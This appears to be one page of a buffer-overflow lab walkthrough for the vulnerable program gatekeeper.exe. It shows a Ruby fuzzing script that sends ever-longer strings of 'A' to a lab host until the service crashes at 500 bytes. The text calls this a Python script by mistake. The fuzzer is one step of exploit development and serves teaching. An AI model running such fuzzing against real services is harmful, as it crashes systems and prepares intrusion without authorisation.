




Let's start the Immunity Debugger as an admin and the vulnerable program "gatekeeper.exe" and then attach the program to the Immunity Debugger:

 

Then click the start button:



Let's go back to our Kali machine and run our first Ruby template
```Ruby
require 'socket'

buff = "A" * 100
RHOST = "192.168.0.227"
RPORT = 31337

begin
    while true
        s = TCPSocket.open(RHOST, RPORT)
        s.puts buff + '\r\n'
        s.close
        sleep 1
        buffSize = buff.size
        buff += "A" * 100
    end
rescue Interrupt
    puts "Debugger crashed at #{buffSize} bytes"
end
```
When we look at our Windows VM, we'll see that the program crashed and we wrote EIP with 4 As (41 is the hex value of A). Once we see that EIP is overwritten, we can go back to our Kali machine and stop running our Python spiking script:






We can see that the program crashed at 500 bytes. We'll use this information to find the offset in the next step.

[<= Go Back to BOF Menu](bufferoverflows.md)

[<= Go Back to Main Menu](index.md)
